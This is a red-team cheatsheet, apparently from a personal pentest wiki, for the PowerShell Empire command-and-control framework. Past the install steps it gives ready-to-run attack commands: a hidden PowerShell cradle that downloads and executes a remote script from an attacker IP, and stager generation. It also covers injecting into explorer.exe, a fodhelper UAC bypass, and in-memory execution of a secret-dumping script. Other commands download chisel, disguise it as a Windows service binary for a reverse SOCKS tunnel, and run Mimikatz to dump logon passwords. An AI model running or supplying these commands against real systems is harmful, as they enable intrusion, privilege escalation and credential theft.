 # Empire

* [https://xakep.ru/2020/06/03/powershell-empire/](https://xakep.ru/2020/06/03/powershell-empire/)




## Install

* [https://github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)

```
$ git clone --recursive https://github.com/BC-SECURITY/Empire.git
$ cd Empire
$ sudo ./setup/install.sh
$ sudo poetry install
```

To compile C# agents ([Covenant](https://github.com/cobbr/Covenant) and [Sharpire](https://github.com/0xbadjuju/Sharpire)) [install](https://docs.microsoft.com/en-us/dotnet/core/install/linux-debian#supported-distributions) .NET SDK 3.1:

```
$ wget https://packages.microsoft.com/config/debian/10/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
$ sudo dpkg -i packages-microsoft-prod.deb
$ rm packages-microsoft-prod.deb

$ sudo apt-get update; \
  sudo apt-get install -y apt-transport-https && \
  sudo apt-get update && \
  sudo apt-get install -y dotnet-sdk-3.1

$ sudo apt-get update; \
  sudo apt-get install -y apt-transport-https && \
  sudo apt-get update && \
  sudo apt-get install -y aspnetcore-runtime-3.1
```




## Run

```
$ ./ps-empire server [--restip 127.0.0.1 --username snovvcrash --password 'Passw0rd!']
$ ./ps-empire client
```

Reset the database:

```
$ ./ps-empire server --reset
```




## Cheatsheet

Basic PowerShell launcher string:

```
PS > powershell -NoP -sta -NonI -W Hidden -Exec Bypass -C "IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/launcher.ps1')"
```

Prepare a listener:

```
(Empire) > listeners
(Empire: listeners) > uselistener http
(Empire: uselistener/http) > set Name http1
(Empire: uselistener/http) > set Host 10.10.13.37
(Empire: uselistener/http) > set Port 80
(Empire: uselistener/http) > execute
```

Generate a PowerShell stager:

```
(Empire: listeners) > usestager multi/launcher
(Empire: usestager/multi/launcher) > set Listener http1
(Empire: usestager/multi/launcher) > set OutFile pwsh.ps1
(Empire: usestager/multi/launcher) > generate
```

Generate a C# stager:

```
(Empire: listeners) > useplugin csharpserver
(Empire: useplugin/csharpserver) > set status start
(Empire: useplugin/csharpserver) > execute
(Empire: useplugin/csharpserver) > usestager windows/csharp_exe
(Empire: usestager/windows/csharp_exe) > set Listener http1
(Empire: usestager/windows/csharp_exe) > set OutFile csharp.exe
(Empire: usestager/windows/csharp_exe) > generate
```

Re-inject into an interactive process (e.g., `explorer.exe`):

```
(Empire: listeners) > agents
(Empire: agents) > rename LKH7SD3V A1
(Empire: agents) > interact A1
(Empire: A1) > sysinfo
(Empire: A1) > shell Get-Process explorer
(Empire: A1) > psinject exch <EXPLORER_EXE_PID>
```

Bypass UAC to get a high integrity process:

```
(Empire: A1) > shell whoami /priv
(Empire: A1) > usemodule privesc/bypassuac_fodhelper
(Empire: powershell/privesc/bypassuac_fodhelper) > set Listener http1
(Empire: powershell/privesc/bypassuac_fodhelper) > run
```

Execute a PowerShell script from memory (e.g., [`Invoke-SharpSecDump.ps1`](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpSecDump.ps1)):

```
(Empire: A1) > shell whoami /priv
(Empire: A1) > usemodule management/invoke_script
(Empire: powershell/management/invoke_script) > set ScriptPath /home/snovvcrash/tools/dump.ps1
(Empire: powershell/management/invoke_script) > set ScriptCmd Invoke-SharpSecDump -C "-tager=127.0.0.1"
(Empire: powershell/management/invoke_script) > run
```

Start a process in the background (e.g., [chisel](https://github.com/jpillora/chisel) SOCKS proxy):

```
(Empire: A1) > shell IWR http://10.10.13.37:8080/chisel.exe -OutFile C:\Windows\services.exe -UseBasicParsing
(Empire: A1) > shell Start-Process -NoNewWindow -FilePath C:\Windows\services.exe -ArgumentList "client 10.10.13.37:8000 R:socks"
```

Invoke a custom Mimikatz command:

```
(Empire: A1) > usemodule credentials/mimikatz/command
(Empire: powershell/credentials/mimikatz/command) > set Command '"privilege::debug" "token::elevate" "ts::logonpasswords" "exit"'
(Empire: powershell/credentials/mimikatz/command) > run
```




## Plugins

* [https://github.com/BC-SECURITY/SocksProxyServer-Plugin](https://github.com/BC-SECURITY/SocksProxyServer-Plugin)
* [https://github.com/BC-SECURITY/ChiselServer-Plugin](https://github.com/BC-SECURITY/ChiselServer-Plugin)




## Customizing Agents

* [https://s3cur3th1ssh1t.github.io/Customizing_C2_Frameworks/](https://s3cur3th1ssh1t.github.io/Customizing_C2_Frameworks/)
